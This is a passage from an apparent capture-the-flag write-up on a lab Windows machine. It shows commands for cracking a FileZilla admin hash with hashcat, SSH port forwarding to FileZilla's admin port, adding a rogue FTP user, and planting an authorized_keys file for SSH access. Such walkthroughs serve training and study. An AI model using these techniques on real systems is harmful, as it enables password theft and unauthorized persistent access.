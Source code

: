 ```
[--admin.password@index=1 --admin.password.hash=mSbrgj1R6oqMMSk4Qk1TuYTc... --admin.password.salt=AdRNx7rAs1CEM23pA.... --admin.password.iterations=100000]
```

And then again we can create custom wordlist to crack it

```
$ hashcat -m 20300 ./filezilla.hash /opt/rockyou.txt -r ./hash_rule.txt
```

The next part of this chain is to enumerate the ports in the machine, we can see some interesting ports such as:

```
TCP    [::1]:14148            [::]:0                 LISTENING       3192
```

We can forward this port, but if we google around we can see that it is related to FileZilla Server, lets forward it:

```
ssh -L 127.0.0.1:8003:127.0.0.1:14148 backup@10.10.247.38
```

Now comes the tricky part, you have to use **Windows** to make this client work, I've faced some issues on Linux but I know that some people have made it work. You also need to use the same version of this software, luckily under `Software` folder there is a `FileZilla_Server_1.8.0_win64-setup.exe` which we can use to start the UI (we do not need the server), then we can configure it to connect to the port that we forwarded.

![](/assets/images/Pasted image 20240218205146.png)

We can then enumerate the current users, but most importantly we can add our new user `syl:5yl`

![](/assets/images/Pasted image 20240218205333.png)

Then we should be able to access the ftp server using the newly created user. Upon listing the FTP, we would notice that we have access to the account `sasrv200` because we can list files there. Since that we have READ & WRITE access we can put `authorized_keys` in a `.ssh` folder with our public key.

```
ftp> mkdir .ssh
257 "/Users/sasrv200/.ssh" created successfully.
...
ftp> put authorized_keys
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||65019|)
150 Starting data transfer.
100% |******************************************************************************************************************************|   107      155.72 KiB/s    00:00 ETA
226 Operation successful
107 bytes sent in 00:00 (2.51 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||65164|)
150 Starting data transfer.
-rw-rw-rw- 1 ftp ftp             107 Feb 18 18:57 authorized_keys
226 Operation successful
```

